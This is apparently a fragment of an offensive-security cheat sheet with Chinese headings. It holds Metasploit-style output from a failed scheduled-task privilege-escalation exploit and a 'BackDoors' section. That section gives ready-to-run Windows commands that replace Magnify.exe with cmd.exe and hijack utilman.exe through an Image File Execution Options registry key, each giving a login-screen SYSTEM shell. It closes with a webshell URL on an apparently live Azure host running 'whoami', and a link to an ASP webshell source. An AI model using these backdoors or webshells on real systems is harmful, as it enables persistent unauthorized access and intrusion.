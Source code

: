 ```cmd!
[*] Validating task: HM51a01gtoTLS
[*] ERROR: The task image is corrupt or has been tampered with.
[*] Disabling the task...
[*] ERROR: The specified task name "HM51a01gtoTLS" does not exist in the system.
[*] Enabling the task...
[*] ERROR: The specified task name "HM51a01gtoTLS" does not exist in the system.
[*] Executing the task...
[*] ERROR: The task image is corrupt or has been tampered with.
[*] Deleting the task...
[*] SUCCESS: The scheduled task "HM51a01gtoTLS" was successfully deleted.
[*] SCHELEVATOR
[*] Exploit completed, but no session was created.

```


## BackDoors
### RDP - Windows登入頁面後門
```cmd
takeown /f "C:\Windows\System32\Magnify.exe"
icacls "C:\Windows\System32\Magnify.exe" /grant administrators:F
ren "C:\Windows\System32\Magnify.exe" "Magnify_back.exe"
copy "C:\Windows\System32\cmd.exe" "C:\Windows\System32\Magnify.exe"
``` 
or
```cmd!
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f
```

### WebShell
http://digiserver2.eastus.cloudapp.azure.com/store/Uploads/about.asp?cmd=whoami

Refer - https://github.com/tennc/webshell/blob/master/asp/webshell.asp